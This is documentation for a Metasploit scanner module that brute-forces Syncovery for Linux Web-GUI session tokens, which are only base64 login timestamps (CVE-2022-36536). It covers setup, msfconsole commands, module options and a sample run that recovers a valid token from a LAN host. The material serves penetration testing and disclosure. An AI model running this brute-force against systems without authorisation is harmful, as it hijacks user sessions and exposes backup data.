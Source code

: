 ## Vulnerable Application
[Syncovery For Linux with Web-GUI](https://www.syncovery.com/download/linux/)

This module attempts to brute-force a valid session token for the Syncovery File Sync & Backup Software Web-GUI
by generating all possible tokens, for every second between 'DateTime.now' and the given X day(s).
By default today and yesterday (DAYS = 1) will be checked. If a valid session token is found, the module stops.
The vulnerability exists, because in Syncovery session tokens are basically just `base64(m/d/Y H:M:S)` at the time
of the login instead of a random token.
If a user does not logout, the token stays valid until next reboot. Note that the mobile version of the WEB GUI
as well as the obsolete branch 8 of Syncovery do not have a logout button.

This affects Syncovery for Linux before v9.48j and all versions of the obsolete branch 8.

### Setup

Installing a vulnerable version of Syncovery for Linux to test this vulnerability is quite easy.
Download a vulnerable version of Syncovery for Linux: https://www.syncovery.com/release/Syncovery-9.47a-amd64.deb
Install it and once the server is up, you can access it on port 8999 for testing...

## Authors

- Jan Rude (mgm security partners GmbH)

## Platforms

- Unix

## Verification Steps

1. `use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536`
2. `set RHOSTS <TARGET HOSTS>`
3. `run`
5. On success you should get a valid token.

## Options

### TARGETURI
The path to Syncovery login mask.

### PORT
The (TCP) target port on which Syncovery is running. By default port 8999 is used for HTTP and port 8943 is used for HTTPS.

## Scenarios

### Syncovery for Linux with default credentials

```
msf6 > use auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > set rhosts 192.168.178.26
rhosts => 192.168.178.26
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > options

Module options (auxiliary/scanner/http/syncovery_linux_token_cve_2022_36536):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DAYS       1                yes       Check today and last X day(s) for valid session token
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.178.26   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                no        The path to Syncovery
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > check
[+] 192.168.178.26:8999 - The target is vulnerable.
msf6 auxiliary(scanner/http/syncovery_linux_token_cve_2022_36536) > run

[*] 192.168.178.26:8999 - Starting Brute-Forcer
[+] 192.168.178.26:8999 - Valid token found: 'MDkvMDYvMjAyMiAxMzo0NDoxMg=='
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Limitations
In Syncovery v9.x tokens get invalidated after the user logs out. In this case no valid token can be found.
